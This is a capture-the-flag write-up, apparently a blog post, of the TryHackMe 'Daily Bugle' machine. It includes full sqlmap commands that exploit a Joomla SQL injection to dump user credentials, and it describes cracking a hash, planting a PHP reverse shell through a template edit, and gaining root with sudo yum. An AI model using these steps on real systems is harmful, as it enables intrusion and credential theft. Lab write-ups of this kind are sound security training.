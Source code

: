 ```yaml
---
layout: post
title: Daily Bugle Write Up
categories: [cybersecurity, writeUps, tryHackMe]
---
```


This is a write-up for the machine [Daily Bugle](https://tryhackme.com/room/dailybugle) from [tryhackme](https://tryhackme.com).

<!-- MarkdownTOC -->

- [Initial Enumeration](#initial-enumeration)
- [Exploiting SQLI to access Joomla](#exploiting-sqli-to-access-joomla)
- [Gaining a Shell](#gaining-a-shell)
- [Local Enumeration](#local-enumeration)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->

## Initial Enumeration

`Nmap` scan to check for open ports and services.

![nmap](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai1.png)

The host seems to be running `CentOS` as OS.

- Port 22 OpenSSH 7.4
- Port 80 Apache 2.4.6
- Port 3306 Maria DB

The `nmap` scan already have found 15 disallowed entries in a `robots.txt` file. Running `gobuster` against the server yields this results.

![gobuster](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai2.png)

The web server shows this page.

![web](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai3.png)

In the `/administrator` folder we have the `Joomla` login page. A vulnerability scan using `nmap` tells us that this version of `Joomla` is vulnerable to `SQLI`. We follow the information from [this exploit](https://www.exploit-db.com/exploits/42033).

## Exploiting SQLI to access Joomla

We use this commands to dump the tables, the `user` table columns and the `user` and `password` columns. 

````shell
sqlmap -u "http://10.10.173.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch --tables

sqlmap -u "http://10.10.173.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch --columns -D mysql -T user

sqlmap -u "http://10.10.173.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch --dump -D mysql -T user -C User,Password
````

![user](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai4.png)

But the result is not useful, we are looking for a `Jonah` user. Finally we dump the table `#__users` and then we find the user credentials we were looking for.

````shell
sqlmap -u "http://10.10.173.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" --dump -C name,username,email,password
````

![table](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai5.png)

With `john` we can crack this password.

![john](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai6.png)

And with this credentials we can access the `joomla` control panel.

## Gaining a Shell

In [this](https://www.hackingarticles.in/joomla-reverse-shell/) article we can find the way to use Joomla to gain a shell into the system.

The steps we have to follow are

1. Go to extensions/templates.
2. Choose a template.
3. Go to index.php.
4. Edit the template adding a php reverse shell code.
5. Start a listener to the port selected.
6. Navigate to index.php.

Following those steps we gain a shell as the user `apache`.

![shell](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai7.png)

## Local Enumeration

The only user on the machine is `jjameson` and we can't access his files. Enumerating the `/var/www` directory we find some credentials in the `configuration.php` file.

![credentials](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai8.png)

If we try to `ssh` to the machine as `jjameson` with that password we have access and can now read the user flag.

![ssh](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai9.png)

## Privilege Escalation

Running `sudo -l` as `jjameson` yields this result.

![sudo -l](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai10.png)

According to [this entry](https://gtfobins.github.io/gtfobins/yum/#sudo) on `gtfobins` this can be used to escalate privileges. 

![root](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/dailybugle/dai11.png)


